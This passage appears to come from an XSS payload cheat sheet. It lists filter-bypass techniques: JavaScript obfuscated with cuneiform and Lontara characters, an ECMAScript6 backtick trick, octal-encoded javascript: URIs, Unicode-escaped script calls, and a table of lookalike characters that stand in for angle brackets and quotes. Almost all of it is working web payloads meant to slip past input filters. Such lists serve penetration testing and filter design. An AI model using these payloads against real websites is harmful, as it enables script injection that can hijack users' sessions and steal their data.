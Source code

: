 ```javascript
𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++],
𒀟=𒉺[𒈫=𒀀],𒀆=++𒈫+𒀀,𒁹=𒇺[𒈫+𒀆],𒉺[𒁹+=𒇺[𒀀]
+(𒉺.𒀃+𒇺)[𒀀]+𒀃[𒀆]+𒌐+𒀟+𒉺[𒈫]+𒁹+𒌐+𒇺[𒀀]
+𒀟][𒁹](𒀃[𒀀]+𒀃[𒈫]+𒉺[𒀆]+𒀟+𒌐+"(𒀀)")()
```

## Bypass using Lontara

```javascript
ᨆ='',ᨊ=!ᨆ+ᨆ,ᨎ=!ᨊ+ᨆ,ᨂ=ᨆ+{},ᨇ=ᨊ[ᨆ++],ᨋ=ᨊ[ᨏ=ᨆ],ᨃ=++ᨏ+ᨆ,ᨅ=ᨂ[ᨏ+ᨃ],ᨊ[ᨅ+=ᨂ[ᨆ]+(ᨊ.ᨎ+ᨂ)[ᨆ]+ᨎ[ᨃ]+ᨇ+ᨋ+ᨊ[ᨏ]+ᨅ+ᨇ+ᨂ[ᨆ]+ᨋ][ᨅ](ᨎ[ᨆ]+ᨎ[ᨏ]+ᨊ[ᨃ]+ᨋ+ᨇ+"(ᨆ)")()
```

More alphabets on http://aem1k.com/aurebesh.js/#

## Bypass using ECMAScript6

```html
<script>alert&DiacriticalGrave;1&DiacriticalGrave;</script>
```

## Bypass using Octal encoding


```javascript
javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76'
```

## Bypass using Unicode

This payload takes advantage of Unicode escape sequences to obscure the JavaScript function

```html
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
```

It uses Unicode escape sequences to represent characters.

| Unicode  | ASCII     |
| -------- | --------- |
| `\u0061` | a         |
| `\u006C` | l         |
| `\u0065` | e         |
| `\u0072` | r         |
| `\u0074` | t         |


Same thing with these Unicode characters.

| Unicode (UTF-8 encoded) | Unicode Name                 | ASCII | ASCII Name     |
| ----------------------- | ---------------------------- | ----- | ---------------|
| `\uFF1C` (%EF%BC%9C)    | FULLWIDTH LESS­THAN SIGN      | <     | LESS­THAN       |
| `\uFF1E` (%EF%BC%9E)    | FULLWIDTH GREATER­THAN SIGN   | >     | GREATER­THAN    |
| `\u02BA` (%CA%BA)       | MODIFIER LETTER DOUBLE PRIME | "     | QUOTATION MARK |
| `\u02B9` (%CA%B9)       | MODIFIER LETTER PRIME        | '     | APOSTROPHE     |
